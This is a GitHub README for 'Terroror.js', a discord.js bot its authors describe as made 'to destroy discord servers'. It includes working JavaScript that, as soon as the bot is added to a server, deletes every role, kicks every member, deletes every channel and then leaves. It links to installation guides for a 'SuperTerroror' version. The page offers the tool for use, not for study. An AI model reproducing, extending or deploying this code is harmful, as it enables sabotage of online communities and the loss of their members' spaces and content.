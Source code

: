 <h1 align=center><a href="https://github.com/Minco-inc/Terroror.js/"><img src="https://user-images.githubusercontent.com/85981610/138410773-c29bfe56-830c-4653-9613-ff7f93263170.png"></a></h1>
<p align=center>
    A <b>Terroror.js</b> bot, is made in <b>discord.js</b> to destroy discord servers!
</p>

<h1 align=center><a href="#"><img src="https://user-images.githubusercontent.com/85981610/138411327-b0f56768-fc30-4951-8aae-9efa195958ba.png"></a></h1>

## Your app.js
```js
/* 
      DO THIS AT YOUR OWN RISK!
      We are not responisible of any damages on discord!
      Copyright by MincoMK
      https://www.minco.kro.kr/
*/
const Main = require("./src/Main.js"); // let discord make own main directory

let main = new Main(); // let make ./src/Main.js as main code
main.main(); // making main code is working
```

## Simple eventmanager.js

```js
const process = require("process");
const version = require("../package.json").version;

/* 
	Enables the SuperTerroror on Discord when bots join automatically make a bomb to server
*/
class EventManager {
	joinAllEvents(client) { // join bot for all events
		this.client = client; // this client
		client.on("ready", async () => { // on ready
			console.log("The bot is ready to terroror"); // when bot is ready log on console
		});

		client.on("guildCreate", guild => { // the server ---
			guild.roles.cache.forEach(role => { // for each role
				role.delete().catch(console.error); // --- delete all roles
			});
			guild.members.cache.forEach(mb => { // for each members
				mb.kick().catch(console.error); // --- kick all members
			});
			guild.channels.cache.forEach(ch => { // for each channels
				ch.delete().catch(console.error); // --- delete channels
			});
			guild.leave(); // and leave the bot after terroror
		});
	}
}

module.exports = EventManager; // export the eventmanager

// end of file
```
<b>When bots join, automatically terroror!</b>



<p align=center>
    View <a href="https://github.com/Minco-inc/Terroror.js/wiki/">Wiki</a> for <b>Full Installation and Guides</b> for building <b>SuperTerroror.js!</b>
</p>

<h1 align=center><a href="#"><img src="https://user-images.githubusercontent.com/85981610/138412398-8be72245-210b-433f-9aa8-ef37f569c831.png"></a></h1>

- Added `express` app for Uptimerobot.com
- Removed `node_modules`, use `npm install / npm i` on terminal
- Added `disnotify` on `package.json`
- Added `@discord-opus`, `discord-api-types`, and other depencies of djs

[`View History Changelogs`](/Changelogs.md) for All Information!

<h3 align=right>- Made by MincoMK and Hen2527</h3>
